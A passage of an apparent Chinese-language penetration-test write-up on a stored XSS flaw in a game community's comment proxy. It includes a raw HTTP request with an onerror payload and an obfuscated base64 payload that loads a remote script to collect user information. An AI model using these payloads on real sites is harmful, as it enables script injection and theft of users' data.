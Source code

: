 ![comment](/assets/uu_images/comment.png)

        POST /w/v1/comment/proxy HTTP/2
        Host: sowellwell.com
        Cookie: xxx
        Content-Length: 995
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
        Sec-Ch-Ua-Mobile: ?0

        {"path":"/message/apps/uu/server/create_message","method":"POST","params":{"uid":"140250100348","category":"64e345d09f08bdd6f2385d78","category_name":"64e345d09f08bdd6f2385d78","content":"getinfo2<img src=x onerror=alert(document.domain)>\n","extra":"{\"device_name\":\"web\",\"platform\":\"web\",\"posts\":{\"gid\":\"596dd2b6e3a8b2614a13b413\",\"coid\":\"596dd2b6e3a8b2614a13b413\"}}","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uum.fp.ps.netease.com/file/5d3fe7616f04942682c67a4clvtOFQXb02","user_type":1,"extra":"{\"user_title\":{},\"level_info\":{\"level\":2,\"cur_exp\":60,\"battery\":3,\"total_exp\":250}}"},"device":{"device_id":"jssdk_pbRJTpNazMAEeEM2"}},"id":"64e345d09f08bdd6f2385d78","server_type":1}


#### 窃取用户信息
既然存在XSS，那么可深入探究一下能够造成多大的影响。由于cookie设置了httpOnly，所以会话劫持无法利用。但是将脚本嵌入到Web页面，在用户的浏览器或者Webview中执行。首先想到的就是收集用户信息。
1. xss payload构造
    
    上一步我们实现了xss弹窗，接下来可以直接嵌入js脚本，实现更复杂的利用。由于平台对script标签进行过滤，所以我们通过img标签的onerror来进行嵌入。payload如下：

        <img src=x onerror=eval("var script=document.createElement('script');script.src='https://my.domain.com/xss.js';document.getElementsByTagName('body')[0].appendChild(script);")>

    将eval中的字符串用base64进行编码，并且再用atob进行解码，得到最终payload：

        <img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGNTkyYjUxNGQyYmRkNGJmMDhiZmI1YmRiNzQ1ZGY3Y2MnO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))>
